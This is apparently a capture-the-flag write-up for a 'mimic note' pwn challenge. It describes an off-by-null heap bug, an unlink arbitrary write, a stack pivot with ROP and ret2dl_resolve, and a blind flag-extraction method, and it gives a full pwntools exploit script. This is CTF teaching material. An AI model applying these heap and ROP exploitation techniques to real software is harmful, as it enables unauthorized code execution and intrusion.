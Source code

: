 [中文](./README_zh.md) [English](./README.md)

[attachment.zip](./attachment.zip)

The problem gives two binary files, one for 32 bits and one for 64 bits.

The main idea is, given the same input, whether the outputs of the 32-bit and 64-bit programs are the same, and exit if they are not the same.

The title is a relatively simple pile of questions

Let's first look at the main function.

![](img/t1.png)

Can see that there are 4 functions

1. new
2. delete
3. show
4. edit

There is an off by null vulnerability in edit, which can be used to unlink and get arbitrary writes.

After arbitrary write, you can use a gadget to transfer the stack to the bss section and perform ROP. And then, use ret2dl_resolve to open the flag and write to a note. The note has a value set in advance, if the output is not equivalent. Will `output what are you trying to do? ` which we can blind injection and get the flag

Below is exp

This is the intended solution, but because mimic is not very well written, there are many unexpected solutions........


```
from pwn import *
import roputils 


def brute_flag(idx,v):
    debug=1

    #context.log_level='debug'

    rop=roputils.ROP('./mimic_note_32')

    if debug:
        p=process('./mimic')
        #p=process('./mimic_note_32')
        #p=process('./mimic_note_64')
        #gdb.attach(p)
    else:
        #p=remote('127.0.0.1',9999)
        pass

    def ru(x):
        return p.recvuntil(x)

    def se(x):
        p.send(x)

    def sl(x):
        p.sendline(x)


    def new(sz):
        sl('1')
        ru('size?')
        sl(str(sz))
        ru(">> ")

    def delete(idx):
        sl('2')
        ru('index ?')
        sl(str(idx))
        ru(">> ")

    def show(idx):
        sl('3')
        ru('index ?')
        sl(str(idx))

    def edit(idx,content):
        sl('4')
        ru('index ?')
        sl(str(idx))
        ru('content?\n')
        se(content)
        ru(">> ")

    #unlink attack x86

    new(0x68)
    new(0x68)
    new(0x94)
    new(0xf8)


    fake_chunk = p32(0)+p32(0x91)+p32(0x804a070-0xc)+p32(0x804a070-0x8)
    fake_chunk = fake_chunk.ljust(0x90,'\0')

    edit(2,fake_chunk+p32(0x90))

    delete(3)

    #ret2dlresolve and blind injection

    new(0x200)

    bss = 0x0804a500

    edit(2,p32(0x100)+p32(0x804A014)+p32(0x98)+p32(bss+0x300)+p32(0x94)+p32(bss)+p32(0x200))
    edit(1,p32(0x80489FA))

    payload = p32(bss-0x100)+rop.dl_resolve_call(bss+0x60, bss+0x180,0)
    payload += p32(0x8048460)+p32(0x80489F9)+p32(3)+p32(bss+0x300-idx)+p32(idx+1)
    payload += p32(0x080489FB)+p32(bss-0x100)
    payload += p32(0x804893C)

    payload = payload.ljust(0x60,'\x00')
    payload += rop.dl_resolve_data(bss+0x60, 'open')
    payload = payload.ljust(0x180,'\x00')
    payload += 'flag'

    edit(3,payload)

    edit(2,v+'\0')


    sl('2\x00'+'a'*6+p32(0x80488DE))
    ru('index ?\n')
    sl('3\x00')
    ru('>> ')

    show(2)

    ru('\n')
    data = ru('\n') 

    p.close()

    if len(data)>5:
        return False
    return True


charset ='{}_'+ string.ascii_letters + string.digits + string.punctuation

flag = ''
for i in range(40):
    for q in charset:
        if brute_flag(i,q):
            flag+=q
            print(flag)
            if q == '}':
                exit(0)
            break
```
